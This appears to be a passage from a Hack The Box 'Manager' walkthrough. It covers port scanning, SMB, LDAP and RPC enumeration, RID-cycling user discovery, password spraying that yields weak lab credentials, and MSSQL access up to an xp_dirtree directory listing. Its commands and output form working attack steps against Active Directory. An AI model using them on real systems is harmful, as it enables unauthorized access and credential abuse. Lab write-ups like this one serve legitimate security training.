


Box: Windows
Level: Medium
### Index
1. [Box Info](#Box%20Info)
2. [Initial Nmap Enum](#Initial%20Nmap%20Enum)
	1. [`Nmap Script Scan Except Brute`](#`Nmap%20Script%20Scan%20Except%20Brute`)
3. [Subdomain Enum - Web Port 80](#Subdomain%20Enum%20-%20Web%20Port%2080)
	1. [`Using ffuf`](#`Using%20ffuf`)
	2. [`Directory Enumeration using GoBuster`](#`Directory%20Enumeration%20using%20GoBuster`)
4. [SMB Enumeration](#SMB%20Enumeration)
	1. [`List share using smbclient`](#`List%20share%20using%20smbclient`)
5. [LDAP Enum](#LDAP%20Enum)
6. [RID Cycling - RPC Enumeration](#RID%20Cycling%20-%20RPC%20Enumeration)
	1. [`Intro to RID Cycling`](#`Intro%20to%20RID%20Cycling`)
	2. [`Using enum4linux-ng to perform RID Cycling Attack`](#`Using%20enum4linux-ng%20to%20perform%20RID%20Cycling%20Attack`)
	3. [`RPC Pipe Enumeration`](#`RPC%20Pipe%20Enumeration`)
	4. [`Trying to enumerate Users, Group and Failed`](#`Trying%20to%20enumerate%20Users,%20Group%20and%20Failed`)
	5. [`Enumerating Users through Guest Account & netexec smb`](#`Enumerating%20Users%20through%20Guest%20Account%20&%20netexec%20smb`)
	6. [`Preparing Wordlist using cewl for password spraying`](#`Preparing%20Wordlist%20using%20cewl%20for%20password%20spraying`)
	7. [`Password Spraying using netexec`](#`Password%20Spraying%20using%20netexec`)
	8. [`smbclient to connect to share with credentials we found above`](#`smbclient%20to%20connect%20to%20share%20with%20credentials%20we%20found%20above`)
	9. [`Authenticate to MSSQL after Password Spraying usnig netexec`](#`Authenticate%20to%20MSSQL%20after%20Password%20Spraying%20usnig%20netexec`)
	10. [`Encryption required, Switching to TLS`](#`Encryption%20required,%20Switching%20to%20TLS`)
	11. [`MSSQL - Enumerating Database`](#`MSSQL%20-%20Enumerating%20Database`)
	12. [`MSSQL - Eunmerating Tables`](#`MSSQL%20-%20Eunmerating%20Tables`)
	13. [`Enumerating Columns and getting data from First Column`](#`Enumerating%20Columns%20and%20getting%20data%20from%20First%20Column`)
	14. [`Using the mssql procedure - xp_dirtree`](#`Using%20the%20mssql%20procedure%20-%20xp_dirtree`)
	15. [`Exploring C:\inetpub\wwwroot using xp_dirtree`](#`Exploring%20C%20inetpub%20wwwroot%20using%20xp_dirtree`)
	16. [`Exploring the Source Code`](#`Exploring%20the%20Source%20Code`)
	17. [`Evil-WinRM Shell for user Raven & User Flag`](#`Evil-WinRM%20Shell%20for%20user%20Raven%20&%20User%20Flag`)
	18. [`AD CS Certificate Enumeration using netexec -M Module_Name`](#`AD%20CS%20Certificate%20Enumeration%20using%20netexec%20-M%20Module_Name`)
7. [Privilege Escalation](#Privilege%20Escalation)
	1. [`WinPEAS.exe Findings`](#`WinPEAS.exe%20Findings`)
8.  [Active Directory Certificate Service](#Active%20Directory%20Certificate%20Service)
	1. [`Finding Vulnerable Certificate - Certify`](#`Finding%20Vulnerable%20Certificate%20-%20Certify`)
	2.  [`ESC7 Attack - ADCS Exploitation`](#`ESC7%20Attack%20-%20ADCS%20Exploitation`)
	3. [`Trying to perform EnableSAN using Certify.exe and Failed`](#`Trying%20to%20perform%20EnableSAN%20using%20Certify.exe%20and%20Failed`)
	4. [`Using Certipy on Kali to perform Enum`](#`Using%20Certipy%20on%20Kali%20to%20perform%20Enum`)
	5. [`Listing Certificate Templates`](#`Listing%20Certificate%20Templates`)
	6. [`Some More Details on ESC7`](#`Some%20More%20Details%20on%20ESC7`)
	7. [`Changind REG Key using reg and impacket-reg - Access Denied`](#`Changind%20REG%20Key%20using%20reg%20and%20impacket-reg%20-%20Access%20Denied`)
	8. [`Importing PSPKI Module & Settign EDITF_ATTRIBUTESUBJECTALTNAME2 In The Registry`](#`Importing%20PSPKI%20Module%20&%20Settign%20EDITF_ATTRIBUTESUBJECTALTNAME2%20In%20The%20Registry`)
	9. [`Adding Manage Certificate Permission to Raven`](#`Adding%20Manage%20Certificate%20Permission%20to%20Raven`)
	10. [`Enabling SubCA Template`](#`Enabling%20SubCA%20Template`)
	11. [`Requesting Certificate For Domain Admin using SubCA Template`](#`Requesting%20Certificate%20For%20Domain%20Admin%20using%20SubCA%20Template`)
	12. [`With Manage Certificate Permission We can issue any fail certificate with the Request ID`](#`With%20Manage%20Certificate%20Permission%20We%20can%20issue%20any%20fail%20certificate%20with%20the%20Request%20ID`)
	13. [`Retrieve the issue certificate using Request ID`](#`Retrieve%20the%20issue%20certificate%20using%20Request%20ID`)
	14. [`Auth using administrator.pfx`](#`Auth%20using%20administrator.pfx`)
	15. [`Getting Root Flag`](#`Getting%20Root%20Flag`)

### Box Info
```
Manager is a medium difficulty Windows machine which hosts an Active Directory environment with AD CS (Active Directory Certificate Services), a web server, and an SQL server. The foothold involves enumerating users using RID cycling and performing a password spray attack to gain access to the MSSQL service. The `xp_dirtree` procedure is then used to explore the filesystem, uncovering a website backup in the web-root. Extracting the backup reveals credentials that are reused to WinRM to the server. Finally, the attacker escalates privileges through AD CS via ESC7 exploitation.
```

### Initial Nmap Enum
```
# nmap -p- --min-rate=1000 -Pn manager.htb                  
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49693/tcp open  unknown
49721/tcp open  unknown
49739/tcp open  unknown
```

```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn manager.htb
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Manager
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-08 08:34:10Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
|_ssl-date: 2024-09-08T08:35:44+00:00; +7h00m02s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-09-08T08:35:43+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.11.236:1433: 
|     Target_Name: MANAGER
|     NetBIOS_Domain_Name: MANAGER
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: manager.htb
|     DNS_Computer_Name: dc01.manager.htb
|     DNS_Tree_Name: manager.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.11.236:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-09-08T08:23:13
|_Not valid after:  2054-09-08T08:23:13
|_ssl-date: 2024-09-08T08:35:44+00:00; +7h00m02s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
|_ssl-date: 2024-09-08T08:35:44+00:00; +7h00m02s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-09-08T08:35:43+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.manager.htb
| Not valid before: 2024-08-30T17:08:51
|_Not valid after:  2122-07-27T10:31:04
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49721/tcp open  msrpc         Microsoft Windows RPC
49778/tcp open  msrpc         Microsoft Windows RPC
49840/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (89%)
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-09-08T08:35:04
|_  start_date: N/A
|_clock-skew: mean: 7h00m01s, deviation: 0s, median: 7h00m00s

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   32.18 ms 10.10.14.1
2   32.37 ms manager.htb (10.10.11.236)
```

We will add `dc01.manager.htb` into our host file. We've got a lot to enumerate now.
###### `Nmap Script Scan Except Brute`
```
# nmap -p80 --min-rate=1000 --script "http-* and not brute" -sC -sV 10.10.11.236
Nothing Interesting comes out of it
```
### Subdomain Enum - Web Port 80

###### `Using ffuf`
```
# ffuf -H "Host: FUZZ.manager.htb" -u http://manager.htb/ -mc 200 -w /usr/share/wordlists/amass/subdomains-top1mil-110000.txt -t 10 -rate 10 -fl 507
Nothing Interestin 
```
The `-t` for threat and `-rate` defines number of requests per second. 

###### `Directory Enumeration using GoBuster`
```
# gobuster dir -u http://manager.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                        
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 149] [--> http://manager.htb/images/]
/Images               (Status: 301) [Size: 149] [--> http://manager.htb/Images/]
/css                  (Status: 301) [Size: 146] [--> http://manager.htb/css/]
/js                   (Status: 301) [Size: 145] [--> http://manager.htb/js/]
/IMAGES               (Status: 301) [Size: 149] [--> http://manager.htb/IMAGES/]
/CSS                  (Status: 301) [Size: 146] [--> http://manager.htb/CSS/]
/JS                   (Status: 301) [Size: 145] [--> http://manager.htb/JS/]
```

### SMB Enumeration

###### `List share using smbclient`
```
# smbclient --no-pass -L 10.10.11.236 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```

### LDAP Enum
```
# ldapsearch -H ldap://manager.htb/  -x -LLL -b '' -s base namingContexts
dn:
namingContexts: DC=manager,DC=htb
namingContexts: CN=Configuration,DC=manager,DC=htb
namingContexts: CN=Schema,CN=Configuration,DC=manager,DC=htb
namingContexts: DC=DomainDnsZones,DC=manager,DC=htb
namingContexts: DC=ForestDnsZones,DC=manager,DC=htb
```

### RID Cycling - RPC Enumeration

###### `Intro to RID Cycling`
```
Relative Identifiers (RID) and Security Identifiers (SID) are key components in Windows operating systems for uniquely identifying and managing objects, such as users and groups, within a network domain. SIDs serve as unique identifiers for domains, ensuring that each domain is distinguishable. RIDs are appended to SIDs to create unique identifiers for objects within those domains. This combination allows for precise tracking and management of object permissions and access controls.

RID Cycling is a method that allows attackers to enumerate domain objects by bruteforcing or guessing RIDs and SIDs, based on the fact that RIDs are sequential.
```

A Good Article to Read - [RID Cycling Attack](https://www.trustedsec.com/blog/new-tool-release-rpc_enum-rid-cycling-attack) also look at [RID Hijacking](https://pentestlab.blog/2020/02/12/persistence-rid-hijacking/) 
###### `Using enum4linux-ng to perform RID Cycling Attack`
```
# enum4linux-ng -A -R 500 10.10.11.236
<<Snipped>>

 ===================================================
|    Domain Information via RPC for 10.10.11.236    |
 ===================================================
[+] Domain: MANAGER
[+] Domain SID: S-1-5-21-4078382237-1492182817-2568127209

OS: Windows 10, Windows Server 2019, Windows Server 2016           
OS version: '10.0'                                                                                                                                       
OS release: '1809'                                                                                                                                       
OS build: '17763' 
<<Snipped>>
```

###### `RPC Pipe Enumeration`
```
# impacket-rpcdump 10.10.11.236  | grep '\pipe'
	  ncacn_np:\\DC01[\pipe\lsass]
	  ncacn_np:\\DC01[\pipe\eventlog]
	  ncacn_np:\\DC01[\pipe\0e9f4947caaf745b]
	  ncacn_np:\\DC01[\pipe\lsass]
	  ncacn_np:\\DC01[\pipe\0e9f4947caaf745b]
	  ncacn_np:\\DC01[\pipe\lsass]
	  ncacn_np:\\DC01[\pipe\0e9f4947caaf745b]
	  ncacn_np:\\DC01[\pipe\lsass]
	  ncacn_np:\\DC01[\pipe\0e9f4947caaf745b]
	  ncacn_np:\\DC01[\pipe\lsass]
	  ncacn_np:\\DC01[\pipe\0e9f4947caaf745b]
	  ncacn_np:\\DC01[\pipe\lsass]
	  ncacn_np:\\DC01[\pipe\0e9f4947caaf745b]
	  ncacn_np:\\DC01[\pipe\lsass]
	  ncacn_np:\\DC01[\pipe\lsass]
	  ncacn_np:\\DC01[\pipe\lsass]
	  ncacn_np:\\DC01[\pipe\lsass]
	  ncacn_np:\\DC01[\pipe\tapsrv]
	  ncacn_np:\\DC01[\pipe\cert]
```

```
# impacket-rpcdump 10.10.11.236  | grep 'ncacn_ip_tcp'
	  ncacn_ip_tcp:10.10.11.236[49664]
	  ncacn_ip_tcp:10.10.11.236[49667]
	  ncacn_ip_tcp:10.10.11.236[49665]
	  ncacn_ip_tcp:10.10.11.236[49693]
	  ncacn_ip_tcp:10.10.11.236[49690]
	  ncacn_ip_tcp:10.10.11.236[49667]
	  ncacn_ip_tcp:10.10.11.236[49690]
	  ncacn_ip_tcp:10.10.11.236[49667]
	  ncacn_ip_tcp:10.10.11.236[49690]
	  ncacn_ip_tcp:10.10.11.236[49667]
	  ncacn_ip_tcp:10.10.11.236[49690]
	  ncacn_ip_tcp:10.10.11.236[49667]
	  ncacn_ip_tcp:10.10.11.236[49667]
	  ncacn_ip_tcp:10.10.11.236[49667]
	  ncacn_ip_tcp:10.10.11.236[49666]
	  ncacn_ip_tcp:10.10.11.236[49666]
	  ncacn_ip_tcp:10.10.11.236[49708]
	  ncacn_ip_tcp:10.10.11.236[49724]
	  ncacn_ip_tcp:10.10.11.236[49795]
	  ncacn_ip_tcp:10.10.11.236[49877]
```

###### `Trying to enumerate Users, Group and Failed`
```
# impacket-lookupsid 10.10.11.236 -port 445 -domain-sids -no-pass  
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.10.11.236
[*] StringBinding ncacn_np:10.10.11.236[\pipe\lsarpc]
[-] LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.

# impacket-lookupsid 10.10.11.236 2000 -port 445 -domain-sids -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.10.11.236
[*] StringBinding ncacn_np:10.10.11.236[\pipe\lsarpc]
[-] LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.

# impacket-lookupsid dc01.manager.htb 2000 -target-ip 10.10.11.236 -port 445 -domain-sids -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at dc01.manager.htb
[*] StringBinding ncacn_np:dc01.manager.htb[\pipe\lsarpc]
[-] LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.

# impacket-lookupsid manager.htb 2000 -target-ip 10.10.11.236 -port 445 -domain-sids -no-pass 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at manager.htb
[*] StringBinding ncacn_np:manager.htb[\pipe\lsarpc]
[-] LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.

# impacket-lookupsid manager.htb 2000 -target-ip 10.10.11.236 -port 139 -domain-sids -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at manager.htb
[*] StringBinding ncacn_np:manager.htb[\pipe\lsarpc]
[-] Cannot request session (Called Name:MANAGER.HTB)

# impacket-lookupsid manager.htb -target-ip 10.10.11.236 -port 139 -domain-sids -no-pass 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at manager.htb
[*] StringBinding ncacn_np:manager.htb[\pipe\lsarpc]
[-] Cannot request session (Called Name:MANAGER.HTB)

# impacket-lookupsid 10.10.11.239 -target-ip 10.10.11.236 -port 139 -domain-sids -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.10.11.239
[*] StringBinding ncacn_np:10.10.11.239[\pipe\lsarpc]
[-] Cannot request session (Called Name:10.10.11.239)
```

###### `Enumerating Users through Guest Account & netexec smb`
```
# netexec smb 10.10.11.236 -u 'guest' -p '' --rid-brute 5000
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\guest: 
SMB         10.10.11.236    445    DC01             498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             500: MANAGER\Administrator (SidTypeUser)
SMB         10.10.11.236    445    DC01             501: MANAGER\Guest (SidTypeUser)
SMB         10.10.11.236    445    DC01             502: MANAGER\krbtgt (SidTypeUser)
SMB         10.10.11.236    445    DC01             512: MANAGER\Domain Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             513: MANAGER\Domain Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             514: MANAGER\Domain Guests (SidTypeGroup)
SMB         10.10.11.236    445    DC01             515: MANAGER\Domain Computers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             516: MANAGER\Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             517: MANAGER\Cert Publishers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             518: MANAGER\Schema Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             519: MANAGER\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.236    445    DC01             521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             525: MANAGER\Protected Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             526: MANAGER\Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             527: MANAGER\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             553: MANAGER\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.10.11.236    445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.236    445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         10.10.11.236    445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.10.11.236    445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         10.10.11.236    445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         10.10.11.236    445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.10.11.236    445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.10.11.236    445    DC01             1119: MANAGER\Operator (SidTypeUser)
```
The number before each username is your RID. Cool. We got our RIDs for multiple users. Preparing the `(SidTypeUser)` as those are some of the valid usernames
```
# more username     
MANAGER\Zhong
MANAGER\Cheng
MANAGER\Ryan
MANAGER\Raven
MANAGER\JinWoo
MANAGER\ChinHae
```

###### `Preparing Wordlist using cewl for password spraying`
```
# cewl http://manager.htb/ --with-numbers > wordlist 
```
###### `Password Spraying using netexec`
```
# netexec smb 10.10.11.236 -u username -p wordlist  | grep -v 'STATUS_LOGON_FAILURE' 
SMB         10.10.11.236    445    DC01     [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
```

Nothing Interesting found form the wordlist we prepare. Let's use a different wordlist.
```
# netexec smb 10.10.11.236 -u username -p /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  | grep -v 'STATUS_LOGON_FAILURE'
```

At this point I prepare a following two wordlist for the username and password to find if any of the user uses their own username as their password. This is sort of a manual process and I'm currently looking to automate it but here's my trial, error and than success.
```
# more username passwordlist 
::::::::::::::
username
::::::::::::::
DC01.MANAGER.htb\Zhong
DC01.MANAGER.htb\Cheng
DC01.MANAGER.htb\Ryan
DC01.MANAGER.htb\Raven
DC01.MANAGER.htb\JinWoo
DC01.MANAGER.htb\ChinHae
DC01.MANAGER.htb\Administrator
DC01.MANAGER.htb\Guest
DC01.MANAGER.htb\krbtgt
DC01.MANAGER.htb\DC01$
::::::::::::::
passwordlist
::::::::::::::
zhong
cheng
ryan
raven
jinwoo
chinhae
administrator
guest
krbtgt
dc01$
```

So I have two lists, One for the usernames and another for the passwords. I am going to check if there's any user uses their own username as the password. This is sort of a manual scenario where you'll change the password such as making first letter capital and than not capital. For Ex: `Ryan` is different than `ryan`. So I did those things and had a little unexpected success on the user that I was ignoring.



So the user `krbtgt` Which is a Kerberos user uses the same username as the password on `SMB`. Pay close attention to the command I used. `--no-bruteforce`. So basically I am providing two files `username` and `passwordlist`. 

###### `smbclient to connect to share with credentials we found above`
```
# smbclient -U 'DC01.MANAGER.HTB/krbtgt%krbtgt' //DC01.MANAGER.HTB/ADMIN$
tree connect failed: NT_STATUS_ACCESS_DENIED

# smbclient -U 'DC01.MANAGER.HTB/krbtgt%krbtgt' //DC01.MANAGER.HTB/IPC$  
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_NO_SUCH_FILE listing \*
smb: \> exit

# smbclient -U 'DC01.MANAGER.HTB/krbtgt%krbtgt' //DC01.MANAGER.HTB/C$  
tree connect failed: NT_STATUS_ACCESS_DENIED

# smbclient -U 'DC01.MANAGER.HTB/krbtgt%krbtgt' //DC01.MANAGER.HTB/SYSVOL  
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_ACCESS_DENIED listing \*
smb: \> exit

# smbclient -U 'DC01.MANAGER.HTB/krbtgt%krbtgt' //DC01.MANAGER.HTB/NETLOGON
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_ACCESS_DENIED listing \*
smb: \> exit
```
None of the share was accessible through the user `krbtgt`. But If not Notice in the `username` and `passwordlist` file than you will see that there's one account missing which `1119: MANAGER\Operator (SidTypeUser)`. I was banging my head against the wall but when I realized it, I quickly add it to the file and run the following command.


Cool, We have an `Operator` account which uses `operator` as a password. This is an important lesson where sometimes, password would be the same as username but just not the Capitol letter. We are going to use `mssql` Service to authenticate to the target. 
###### `Authenticate to MSSQL after Password Spraying usnig netexec`
```
# impacket-mssqlclient 'MANAGER.htb'/'Operator':'operator'@10.10.11.236 -dc-ip 10.10.11.236 -target-ip 10.10.11.236 -debug
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[*] Encryption required, switching to TLS
```
###### `Encryption required, Switching to TLS`
```
# impacket-mssqlclient 'MANAGER.htb'/'Operator':'operator'@10.10.11.236 -windows-auth                                     
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)>
```

###### `MSSQL - Enumerating Database`
```
SQL (MANAGER\Operator  guest@master)> SELECT NAME from master.sys.databases;
[%] SELECT NAME from master.sys.databases;
NAME     
------   
master   
tempdb   
model    
msdb
```
###### `MSSQL - Eunmerating Tables`
```
SQL (MANAGER\Operator  guest@master)> use master;[%] use master;
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
SQL (MANAGER\Operator  guest@master)> SELECT TABLE_NAME from master.INFORMATION_SCHEMA.TABLES;
[%] SELECT TABLE_NAME from master.INFORMATION_SCHEMA.TABLES;
TABLE_NAME         
----------------   
spt_fallback_db    
spt_fallback_dev  
spt_fallback_usg   
spt_values         
spt_monitor        
```

###### `Enumerating Columns and getting data from First Column`
```
SQL (MANAGER\Operator  guest@master)> select top 1 * from spt_fallback_db;
[%] select top 1 * from spt_fallback_db;
xserver_name   xdttm_ins   xdttm_last_ins_upd   xfallback_dbid   name   dbid   status   version   
------------   ---------   ------------------   --------------   ----   ----   ------   -------   
SQL (MANAGER\Operator  guest@master)> select top 1 * from spt_fallback_dev;
[%] select top 1 * from spt_fallback_dev;
xserver_name   xdttm_ins   xdttm_last_ins_upd   xfallback_low   xfallback_drive   low   high   status   name   phyname   
------------   ---------   ------------------   -------------   ---------------   ---   ----   ------   ----   -------   
SQL (MANAGER\Operator  guest@master)> select top 1 * from spt_fallback_usg;
[%] select top 1 * from spt_fallback_usg;
xserver_name   xdttm_ins   xdttm_last_ins_upd   xfallback_vstart   dbid   segmap   lstart   sizepg   vstart   
------------   ---------   ------------------   ----------------   ----   ------   ------   ------   ------   
SQL (MANAGER\Operator  guest@master)> select top 1 * from spt_values;
[%] select top 1 * from spt_values;
name   number   type    low   high   status   
----   ------   ----   ----   ----   ------   
rpc         1   A      NULL   NULL        0   

SQL (MANAGER\Operator  guest@master)> select top 1 * from spt_monitor;
[%] select top 1 * from spt_monitor;
   lastrun   cpu_busy   io_busy   idle   pack_received   pack_sent   connections   pack_errors   total_read   total_write   total_errors   
----------   --------   -------   ----   -------------   ---------   -----------   -----------   ----------   -----------   ------------   
2019-09-24 14:21:40         30        30   7220              39          39            53             0            0             0              0   
```

The `SELECT` query above has `top 1 *` that prints the first query from each table. This will print the first row from the table so that you don't end up printing the full table if the table has lot of data. Okay nothing interesting in Masters. Let's change the database and pull out data from another table.
###### `Using the mssql procedure - xp_dirtree`
One of the procedure within mssql was enabled `xp_dirtree`
```
SQL (MANAGER\Operator  guest@master)> xp_dirtree 
subdirectory                depth   file   
-------------------------   -----   ----   
$Recycle.Bin                    1      0   
Documents and Settings          1      0   
inetpub                         1      0   
PerfLogs                        1      0   
Program Files                   1      0   
Program Files (x86)             1      0   
ProgramData                     1      0   
Recovery                        1      0   
